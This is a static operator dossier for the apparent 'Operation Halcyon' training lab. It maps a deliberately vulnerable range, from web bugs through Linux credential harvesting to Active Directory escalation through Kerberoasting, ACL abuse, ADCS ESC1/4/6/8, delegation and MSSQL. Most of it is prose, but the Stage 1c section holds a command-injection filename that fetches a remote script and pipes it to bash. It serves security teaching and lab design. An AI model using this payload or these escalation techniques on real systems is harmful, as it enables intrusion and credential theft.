

# Operation Halcyon — Full Attack Chain & Vulnerability Dossier

Operator-facing, not shown to students/testers (`docs/student-brief.md` is
their version). Unlike `docs/answer-key.md` (generated per-deploy, contains
*that deployment's* live secrets and which optional paths are active), this
document is the **static reference**: every vulnerability the lab can
contain, why it exists, exactly which file/config produces it, and how the
stages chain together. It stays true across every deploy and every
`HALCYON_SEED`; think of it as the write-up a red team would hand back after
fully mapping the range once — before any of the per-deploy randomization
scrambles the specific credentials and which optional paths are switched on.

Applies identically to the KVM and AWS deployment targets, with one
exception noted at the end: AWS drops the pfSense edge-firewall enumeration
stage (see `docs/architecture-aws.md`).

---

## The scenario, in-world

**Halcyon Logistics** runs a lean internal IT shop: one domain
(`corp.halcyon.local`), four staff, four service accounts, a homegrown
shipment-tracking intranet nobody's gotten around to hardening, and a CI
pipeline that's "legacy until the Jenkins migration lands." Nothing here is
a single dramatic exploit — it's the accumulated small negligences of a real
under-resourced IT department: a bind password in a config file, a keytab
with the wrong permissions, a linked server nobody audited, a certificate
template cloned from a Microsoft example and never locked back down. That
accumulation is the point — see `docs/architecture.md`'s "Anti-walkthrough
design" for why the lab is built this way instead of around one CVE.

---

## Kill chain overview

```
 [WAN] ATTACK
    │  (KVM: pfSense port-forward 80/443 -> WEB01; AWS: SG allows 80/443 -> web01)
    ▼
 STAGE 1  Web app compromise               webapp/app.py, ansible/roles/web_app
    │  IDOR -> SSRF/SQLi -> file upload RCE as www-data
    ▼
 STAGE 2  Linux credential harvest         ansible/roles/linux_web
    │  sssd.conf bind creds, weak keytab perms, deploy.sh, privesc to root
    ▼
 STAGE 3  AD foothold via svc-webbind      ansible/roles/ad_identities
    │  Kerberoast / AS-REP roast / ACL abuse — multiple independent routes
    ▼
 STAGE 4  Privilege escalation in AD       ad_identities, adcs, mssql
    │  ADCS ESC1/4/6/8, delegation/RBCD, MSSQL xp_cmdshell/linked server
    ▼
 STAGE 5  Domain Admin / DCSync             ad_forest (confidential share)
```

No single stage is load-bearing on its own past Stage 2 — Stage 4 in
particular has 4-5 independently viable escalation routes, of which only a
randomized subset are live in any given deployment (`randomize_min_*` in
`ansible/group_vars/all.yml`), so a walkthrough for one deploy's specific
route doesn't generalize.

---

## Network topology (KVM target)

Segment/IP layout is `docs/architecture.md`'s "Network segmentation"
section; reproduced here with the specific service each stage lands on, so
this document doesn't require cross-referencing during an engagement.



- **WAN → DMZ/LAN is blocked**; the *only* inbound path is the FW01
  port-forward to WEB01:80/443 (Stage 1's entire attack surface).
- **DMZ → LAN is intentionally allowed** (WEB01's legitimate AD/DNS/DB
  needs) — this is the pivot Stage 2→3 relies on, and the reason Stage 1's
  SSRF (1b) can reach DC01's ADCS web-enrollment page directly.
- **LAN is flat** between DC01/SRV01/WS01/WS02 (Defender firewall off
  host-to-host) — FW01 governs zone-to-zone traffic only, not intra-LAN.
- `verify-segmentation.sh` (run from ATTACK, not the KVM host) is the
  automated check that this policy actually holds; see the WinRM/host
  management-plane caveat in that script's header before trusting a result
  gathered any other way.
- **AWS target**: no FW01/pfSense device — Security Groups enforce the same
  WAN/DMZ/LAN boundaries with no discrete box to enumerate. See "AWS-path
  difference" at the end of this document and `docs/architecture-aws.md`.

---

## Stage 1 — Web app compromise (`webapp/app.py`)

The intranet is the *only* thing exposed to WAN — everything downstream
depends on popping it first. Four independent bugs, chained:

**1a. Broken access control (IDOR), `shipment_detail()` — always live.**
`app.py:115-125`. Any authenticated user can fetch any shipment by
incrementing `/shipment/<id>` — there is no `session["ops_team"] ==
shipment["ops_team"]` check at all. Root cause: the authorization check was
simply never written, not bypassed — the most common real-world BAC pattern.
This alone leaks `internal_notes` across teams and is what makes the next
bug reachable: the SSRF-triggering `import-manifest` route lives *behind*
this same shipment ID, so any user can reach a feature meant to be
ops-admin-only just by walking IDs.

**1b. SSRF, `import_manifest()` — path `web_idor_ssrf_upload`.** `app.py:135-163`.
Two stacked bugs: the server-side role check trusts a
client-supplied `client_is_admin` form field instead of `session["role"]`
(classic "hide the button, forget the server check"), and — when the path
is live — `manifest_url` is fetched with `requests.get()` with no
scheme/host allowlist. The app server sits with a leg in the internal
segment, so this reaches management surfaces the outside world can't (e.g.
DC01's ADCS web-enrollment page, relevant later for ESC8). When the path is
*not* live, the code takes the `else` branch and enforces a real allowlist
— this endpoint is one of the few in the app with a deliberate "patched"
alternate branch, useful for calibrating difficulty.

**1c. OS command injection via unsanitized filename, `upload_pod()` —
same path, `web_idor_ssrf_upload`.** `app.py:175-198`. The stored file path
is safe (`secure_filename()` + a UUID prefix — this is *not* the classic
"upload a webshell with a bad extension" bug). The bug is one line later:
the thumbnail step shells out to ImageMagick's `convert` via
`subprocess.run(..., shell=True)`, and builds that shell string using the
*original, client-supplied* filename, never sanitized. A filename like
`x'; curl 192.168.50.66/rce.sh|bash; '.jpg` breaks out of the quoted
argument. This is deliberately a "the sanitization happened, just not on
the value that mattered" bug — realistic downstream-processing negligence,
not a naive extension-check bypass. This is the actual RCE-as-`www-data`
step; Stage 1a/1b get you here, 1c gets you code execution.

**1d. SQL injection, `search()` — path `web_sqli_creds_leak`.** `app.py:213-236`.
String-built query (`f"... ILIKE '%{q}%'"`) vs. the
parameterized query in the `else` branch — again, a real "patched" branch
exists for calibration. A UNION-based extraction against the `integrations`
table (`schema.sql.j2:28-34,48-49`) recovers `svc-webbind`'s AD bind
password directly from the database — a second route to the same credential
Stage 2 also finds on disk, useful if SSRF/upload paths are disabled that
deploy but SQLi is live instead.

**Optional: source disclosure, `web_git_backup_disclosure`.**
`ansible/roles/web_app/tasks/main.yml:118-138`. A `.git` directory is left
in the web root with a commit whose *history* (not current tree) contains
`config.py.bak` with `svc-webbind`'s plaintext LDAP bind password — the file
was "removed" in a later commit, but git history doesn't forget. A third,
independent route to the same credential.

Note the pattern across 1b/1d/optional: **`svc-webbind`'s credential is
reachable by design through 3+ independent bugs.** This is deliberate
redundancy (`docs/architecture.md`, "independent parallel paths") so no
single vuln toggle blocks the whole chain.

---

## Stage 2 — Linux credential harvest (`ansible/roles/linux_web`)

Once code execution as `www-data` lands, three pieces of loot sit in plain
sight, each a distinct realistic ops mistake:

- **SSSD bind credential.** `sssd.conf.j2:19-23` stores
  `ldap_default_authtok = <svc-webbind password>` in cleartext, mode `0600`
  root-owned — the comment in the template says it outright: *"This is the
  credential an attacker with local root/www-data access reads."* Getting
  from `www-data` to reading a `root:root 0600` file is the actual privesc
  requirement — see below.
- **World-readable Kerberos keytab.** `main.yml:66-71` deliberately sets
  `/etc/krb5.keytab` to `0644` — "realistic ops mistake, not a CVE." The
  machine keytab lets an attacker forge/use the WEB01$ computer identity for
  Kerberos operations without touching a password at all.
- **CI deploy script with a hardcoded credential.** `deploy.sh.j2:7-8` embeds
  `svc-deploy`'s plaintext password directly in a world-executable script at
  `/opt/halcyon/deploy.sh`, and a planted `.bash_history` (`main.yml:90-100`)
  points straight at it — a breadcrumb, not a random find. `svc-deploy` is
  AS-REP-roastable when that path is live (Stage 3), so this is a second
  independent route to the same account.

**Local privesc to root** (one of three, randomized —
`linux_sudo_nopasswd` / `linux_writable_systemd` / `linux_suid_binary`, all
in `main.yml:103-180`): NOPASSWD sudo on a group-writable maintenance
script, a root-run systemd unit whose `ExecStart` target is `0666`, or a
custom SUID-root "log viewer" that shells out to `cat` with an unvalidated
filename argument (a hand-built local-file-read-as-root primitive, not a
known SUID binary from GTFOBins — keeps this in the "config-class, not
recognizable" category the whole lab is built around). Only one is active
per deploy; `flag_linux_root.txt` (`main.yml:200-206`) confirms which one
mattered.

---

## Stage 3 — AD foothold: three independent routes to a domain credential

By this point the attacker holds `svc-webbind`'s password (from Stage 1
and/or Stage 2 — deliberately redundant) and, separately, has these routes
available regardless of whether `svc-webbind` was ever cracked:

- **Kerberoasting `svc-mssql`** (always live, `kerberoast_svc_mssql`).
  `ad_identities/tasks/main.yml:34-41` registers an SPN
  (`MSSQLSvc/srv01.corp.halcyon.local`) on `svc-mssql` — any authenticated
  domain principal can request a service ticket for it and crack the
  password offline. Structurally *always on* because it's the entry point
  to Stage 4's MSSQL abuse path, which is itself always-live
  (`mssql_xp_cmdshell`).
- **Kerberoasting `svc-webbind`** rides the same toggle
  (`main.yml:43-49`) via an `HTTP/intranet.corp.halcyon.local` SPN — a
  second crackable-ticket route to the same account Stage 1/2 already
  exposed via cleartext, in case an operator wants a "crack it, don't just
  read it" variant for teaching.
- **AS-REP roasting `svc-deploy`** (`asrep_svc_deploy`, secondary pool).
  `main.yml:52-56` disables Kerberos preauth
  (`DoesNotRequirePreAuth`) — no credential needed at all to request and
  crack an AS-REP for this account. Chains directly from the Stage 2
  deploy-script breadcrumb.

---

## Stage 4 — Privilege escalation: five independent routes

This is the widest part of the tree — `randomize_min_optional_live: 6` and
`randomize_min_adcs_live: 2` in `ansible/group_vars/all.yml` guarantee a
healthy random subset is live each deploy, but never all of them, and never
zero.

**4a. ACL chain to DCSync (`acl_chain_dcsync`, always live).**
`main.yml:60-89`. Two-hop, deliberately not a direct grant: `IT-Support`
(a group, not a specific user) gets `GenericAll` over `svc-backup`'s AD
object, and `svc-backup` *separately* holds `DS-Replication-Get-Changes` +
`-All` extended rights on the domain root — i.e. DCSync rights, without
ever being a member of Domain Admins. Anyone who can get `IT-Support`
membership (one of the seeded staff users, `m.silva`/`k.ahmadi`, is already
in it — see `group_vars/all.yml`'s `staff_users`) can reset `svc-backup`'s
password via the ACL grant, then DCSync as `svc-backup`. This is the
lab's built-in "ACL abuse, not brute Domain Admin membership" escalation —
always live because it's a core teaching objective, not incidental.

**4b. ADCS ESC1 (`adcs_esc1`).** `roles/adcs/templates/esc1_template.ps1.j2`
+ `adcs/tasks/main.yml:44-56`. A certificate template cloned via PSPKI with
`CT_FLAG_ENROLLEE_SUPPLIES_SUBJECT` set, a client-authentication EKU, and
enrollment rights open to Domain Users — the textbook ESC1 misconfiguration:
any domain user can request a cert *as anyone*, including a Domain Admin,
and authenticate with it.

**4c. ADCS ESC4 (`adcs_esc4`).** `esc4_template.ps1.j2` + `main.yml:58-67`.
A template with a writable ACL — an attacker who can modify the template
object itself can reconfigure it into an ESC1-shaped template on the fly,
even if no template ships ESC1-vulnerable by default that deploy.

**4d. ADCS ESC6 (`adcs_esc6`).** `main.yml:69-74`. Sets the CA-wide
`EDITF_ATTRIBUTESUBJECTALTNAME2` flag via `certutil -setreg` — lets a
requester specify an arbitrary SAN on *any* issued cert, regardless of
individual template settings. A CA-level misconfiguration rather than a
per-template one, so it's a genuinely different technique from 4b/4c even
though the outcome (impersonation via cert) rhymes.

**4e. ADCS ESC8 / NTLM relay to enrollment (`adcs_esc8_relay`).**
`main.yml:26-42`. Installs the web enrollment role and explicitly strips
TLS/EPA (`sslFlags="None"` on the `CertSrv` IIS vdir) — HTTP-only cert
enrollment is coercible-NTLM-relay bait: relay a coerced machine
authentication into a cert request and walk away with a certificate for
that machine's identity. This is also the payload Stage 1b's SSRF becomes
genuinely dangerous with, since the app server can reach `CertSrv` on
DC01's internal IP.

**4f. Unconstrained delegation + RBCD (`unconstrained_delegation` /
`rbcd_web_to_ws01`).** `main.yml:92-108`. SRV01's computer account is
flagged `TrustedForDelegation` — compromising SRV01 (which the MSSQL path
below hands you) yields cached TGTs for anyone who authenticates to it,
including a DA if one ever does admin work against it. Separately,
`svc-webbind` is granted write access to WS01's
`msDS-AllowedToActOnBehalfOfOtherIdentity` — classic RBCD: configure a
fake computer's delegation rights onto WS01 and impersonate any user
(including a local admin) against it.

**4g. MSSQL abuse (`mssql_xp_cmdshell` always live, `mssql_linked_server`
optional).** `mssql/tasks/main.yml:91-107`. `xp_cmdshell` is explicitly
re-enabled via `sp_configure` — OS command execution as the SQL service
account (`svc-mssql`, which also holds explicit `SeImpersonatePrivilege`,
`main.yml:68-89`, opening a potato-style local privesc from SQL-service
context to SYSTEM on SRV01). When the linked-server path is live, a
same-context (`@useself='True'`) linked server back to DC01 lets a
Kerberoasted-or-cracked `svc-mssql` pivot T-SQL execution onto the DC
itself via `EXECUTE AS`/`OPENQUERY`, without ever touching xp_cmdshell on
the DC directly.

---

## Stage 5 — Domain Admin / DCSync

Whichever Stage-4 route was live resolves to either a directly-obtained DA
credential/ticket, or DCSync rights via the 4a ACL chain — either way, the
confidential share (`ad_forest/tasks/main.yml:76-82`) holds
`flag_domain_admin.txt`, restricted to `Domain Admins` via explicit ACL, as
the terminal proof-of-compromise.

---

## Full vulnerability catalogue

| ID | Category | Live? | File(s) | Root cause |
|---|---|---|---|---|
| `web_idor_ssrf_upload` | web | always | `webapp/app.py` (IDOR always; SSRF+RCE gated) | missing authz check; client-trusted role flag; unsanitized filename in `shell=True` |
| `web_sqli_creds_leak` | web | random | `webapp/app.py`, `schema.sql.j2` | string-built SQL query |
| `web_git_backup_disclosure` | web | random | `web_app/tasks/main.yml` | secret survives in git history after "removal" |
| `linux_sudo_nopasswd` | linux_privesc | random | `linux_web/tasks/main.yml` | NOPASSWD sudo on a group-writable script |
| `linux_writable_systemd` | linux_privesc | random | `linux_web/tasks/main.yml` | root-run unit, world-writable `ExecStart` target |
| `linux_suid_binary` | linux_privesc | random | `linux_web/tasks/main.yml` | custom SUID root binary, unvalidated file arg |
| `kerberoast_svc_mssql` | kerberos | always | `ad_identities/tasks/main.yml` | SPN on a user account with a crackable password |
| `asrep_svc_deploy` | kerberos | random | `ad_identities/tasks/main.yml` | preauth disabled |
| `acl_chain_dcsync` | acl | always | `ad_identities/tasks/main.yml` | two-hop ACL grant, DCSync rights outside Domain Admins |
| `adcs_esc1` | adcs | random | `adcs/templates/esc1_template.ps1.j2` | enrollee-supplied subject + client-auth EKU + open enrollment |
| `adcs_esc4` | adcs | random | `adcs/templates/esc4_template.ps1.j2` | writable template ACL |
| `adcs_esc6` | adcs | random | `adcs/tasks/main.yml` | CA-wide SAN override flag |
| `adcs_esc8_relay` | adcs | random | `adcs/tasks/main.yml` | HTTP-only enrollment, no EPA |
| `unconstrained_delegation` | delegation | random | `ad_identities/tasks/main.yml` | `TrustedForDelegation` on SRV01 |
| `rbcd_web_to_ws01` | delegation | random | `ad_identities/tasks/main.yml` | writable `msDS-AllowedToActOnBehalfOfOtherIdentity` |
| `laps_absent_pth` | lateral | random | `domain_join_win/tasks/main.yml` | shared local admin password, no LAPS |
| `mssql_xp_cmdshell` | mssql | always | `mssql/tasks/main.yml` | `xp_cmdshell` re-enabled; service account has `SeImpersonatePrivilege` |
| `mssql_linked_server` | mssql | random | `mssql/tasks/main.yml` | same-context linked server to the DC |

Plus always-present, non-toggled structural loot: SSSD bind cred (`0600`,
but readable once root/www-data is reached), `0644` Kerberos keytab, CI
deploy script with a hardcoded password, SYSVOL "legacy deploy notes"
(world-readable to Domain Users by default — no share config needed), and
the `svc-scan` decoy (`ad_identities/tasks/main.yml:111-115` — a
plausible-looking but empty lead, description field intentionally a dead
end).

## Posture knobs that shape technique availability

`ansible/roles/posture` + `group_vars/all.yml`'s `posture` block, applied
lab-wide regardless of which optional vuln paths are live:

- Defender **AV** always on, Defender **firewall** always off — the lab
  tests AV-evasion-free technique, not AV bypass, and keeps the LAN flat
  intra-host (the pfSense/SG boundary governs zone-to-zone, not host-to-host
  — see `docs/architecture.md`).
- SMB signing **required on DC01**, **not required on SRV01** — SRV01 is the
  deliberate NTLM-relay target.
- LDAP channel binding **off**, LLMNR/NBT-NS **on** — leaves classic
  responder/relay technique viable as a lateral-movement option regardless
  of which of Stage 4's other routes are active.

## Randomization mechanics

`ansible/roles/randomize/files/gen_seed.py`, run by `scripts/deploy.sh` /
`scripts/aws-deploy.sh` before provisioning: derives all credentials, flag
tokens, and the live subset of non-`always` paths from `HALCYON_SEED` (random
per deploy unless explicitly pinned for debugging). Guarantees
(`randomize_min_adcs_live: 2`, `randomize_min_optional_live: 6`) that enough
optional routes are live to keep the range solvable while varying *which*
ones, so a published walkthrough for one deployment's specific technique
sequence doesn't transfer to the next. See `docs/architecture.md`'s
"Anti-walkthrough design" for the full rationale.

## AWS-path difference

The KVM version adds a genuine sixth stage that this document's Stage 1-5
numbering doesn't cover: enumerating and pivoting through `fw01` (pfSense)
itself — its admin surface, NAT/port-forward configuration, and the
deliberately-broad DMZ→LAN pivot rule are all in-scope targets in their own
right. **The AWS deployment path does not have this stage** — segmentation
there is enforced by Security Groups with no discrete device to enumerate.
See `docs/architecture-aws.md` for the full reasoning. Every other stage
above (1 through 5) is identical on both deployment targets, since the
Ansible role logic that produces them is unchanged between KVM and AWS.
